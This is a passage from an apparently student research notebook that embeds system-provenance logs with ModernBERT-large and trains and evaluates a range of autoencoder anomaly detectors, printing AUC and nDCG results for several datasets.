                df = all_data[performer][context]
                filename = f"{performer}_{context}_modernbert_large.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All ModernBERT data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

Using device: CUDA
Loading model: answerdotai/ModernBERT-large...


c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\huggingface_hub\file_download.py:143: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\Waleed\.cache\huggingface\hub\models--answerdotai--ModernBERT-large. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)


Moving model to cuda...
Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (answerdotai/ModernBERT-large)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...
    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...
    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...
    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...
    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...
    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...
    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...
    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...
    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...
    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...
    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEARS

KeyboardInterrupt: 

In [7]:
import pickle
import os

SAVE_DIR = "processed_embeddings_modernbert_large"
os.makedirs(SAVE_DIR, exist_ok=True)

performer = "trace"
context = "ProcessAll"

df = all_data[performer][context]

filename = f"{performer}_{context}_modernbert_large.pkl"
filepath = os.path.join(SAVE_DIR, filename)

with open(filepath, "wb") as f:
    pickle.dump(df, f)

print("✓ Missing file saved successfully.")

✓ Missing file saved successfully.


#### Train Test Split

In [5]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your ModernBERT-large generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_modernbert_large" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_modernbert_large"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing ModernBERT suffixes
    key_name = filename.replace(".pkl", "").replace("_modernbert_large", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR MODERNBERT-LARGE!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_modernbert_large
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_modernbert_large.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_modernbert_large\5dir\train\ProcessAll.pkl and final_train_test_split_modernbert_large\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_modernbert_large.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_modernbert_large\5dir\train\ProcessEvent.pkl and final_train_test_split_modernbert_large\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_modernbert_large.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 1024), Test: (2223, 102

#### Training and saving `.pth` files

In [3]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for ModernBERT-Large
BASE_DIR = "final_train_test_split_modernbert_large"
RESULTS_FILE = "results_all_autoencoders_modernbert_large.csv"
MODEL_SAVE_DIR = "saved_weights_modernbert_large"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] answerdotai/ModernBERT-large uses 1024 dimensions
INPUT_DIM = 1024    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.956 | nDCG: 0.3423 (DCG: 1.4563, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.923 | nDCG: 0.4583 (DCG: 1.9497, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9612 | nDCG: 0.3617 (DCG: 1.539, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.9316 | nDCG: 0.538 (DCG: 2.2891, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.8816 | nDCG: 0.432 (DCG: 1.838, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.9199 | nDCG: 0.3902 (DCG: 1.6601, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.9297 | nDCG: 0.3882 (DCG: 1.6518, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9665 | nDCG: 0.5778 (DCG: 2.4583, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9629 | nDCG: 0.5615 (DCG: 2.3888, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9658 | nDCG: 0.3625 (DCG: 1.

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9986 | nDCG: 0.8858 (DCG: 18.5472, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.7175 | nDCG: 0.3435 (DCG: 7.1925, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.6449 | nDCG: 0.6238 (DCG: 13.0625, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.972 | nDCG: 0.5051 (DCG: 10.5767, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.7046 | nDCG: 0.3419 (DCG: 7.1592, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.7186 | nDCG: 0.3439 (DCG: 7.1998, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.8721 | nDCG: 0.3871 (DCG: 8.105, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.712 | nDCG: 0.3427 (DCG: 7.1764, IDCG: 20.9387)
    -> Training LSTMAE... Done. AUC: 0.9958 | nDCG: 0.8028 (DCG: 16.8087, IDCG: 20.9387)
   

In [9]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "modernbert_large" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] answerdotai/ModernBERT-large uses 1024 dimensions
INPUT_DIM = 1024 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. Load the saved weights using dynamic EMBEDDING_NAME
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    weight_path = os.path.join(MODEL_SAVE_DIR, weight_filename)
    
    if not os.path.exists(weight_path):
        return None # Skip if weights don't exist
        
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
